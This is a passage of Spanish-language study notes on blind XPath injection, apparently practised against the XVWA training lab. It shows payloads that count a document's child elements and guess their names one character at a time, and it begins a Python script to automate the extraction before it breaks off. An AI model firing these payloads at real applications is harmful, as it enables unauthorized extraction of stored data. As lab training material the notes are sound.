     if __name__ == '__main__':
    	XPATH_RootTag()
    ```
    

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 24.png)

Ahora se conoce la cantidad y el nombre los elementos hijos del elemento raíz por lo que hay que actualizar el nuevo archivo XML:

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 25.png)

### Cantidad de Elementos internos de Elemento Hijo

Ahora que se conoce la cantidad de elementos hijos del elemento raíz, ahora se quiere conocer la cantidad de etiquetas que tiene cada elemento hijo junto con su contenido. En este caso solo se enfocará en la primer etiqueta del elemento hijo.

```bash
# Tomar el primer elemento hijo y contabilizar sus 
# etiquetas internas para compararlo con un valor
1' and count(/*/*[1]/*)>='5
```

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 26.png)

### Nombre de Elementos internos de Elemento Hijo

Ahora para descubrir el nombre de los elementos internos se usa la siguiente inyección:

```bash
# Tomar el primer caracter del primer elemento interno del 
# primer elemento hijo y compararlo con un caracter
1' and substring(name(/*/*[1]/*[1]),1,1)='I
```

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 27.png)

Esto se puede automatizar con un script en Python

- Code
    
    ```bash
    #!/bin/bash
    
    import sys, signal, requests, time, string
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!] Exiting...\n")
    	exit(1)
    
    #Ctrl+C
    signal.signal(signal.SIGINT, def_handler)
    
    #Variables globales
    main_url = "http://192.168.0.105/xvwa/vulnerabilities/xpath/"
    characters = string.ascii_letters
    